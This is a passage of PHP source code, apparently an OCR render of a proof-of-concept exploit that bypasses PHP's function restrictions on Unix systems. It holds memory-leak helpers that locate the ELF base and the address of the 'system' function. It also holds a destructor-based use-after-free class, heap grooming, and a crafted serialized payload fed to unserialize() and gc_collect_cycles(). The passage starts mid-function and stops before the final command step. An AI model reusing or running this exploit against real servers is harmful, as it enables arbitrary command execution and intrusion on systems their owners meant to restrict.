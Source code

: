 ```php
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) { # ELF header
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) { # system
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    class ryat {
        var $ryat;
        var $chtg;
        
        function __destruct()
        {
            $this->chtg = $this->ryat;
            $this->ryat = 1;
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; # increase this value if you get segfaults

    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_repeat('A', 79);

    $poc = 'a:4:{i:0;i:1;i:1;a:1:{i:0;O:4:"ryat":2:{s:4:"ryat";R:3;s:4:"chtg";i:2;}}i:1;i:3;i:2;R:5;}';
    $out = unserialize($poc);
    gc_collect_cycles();

```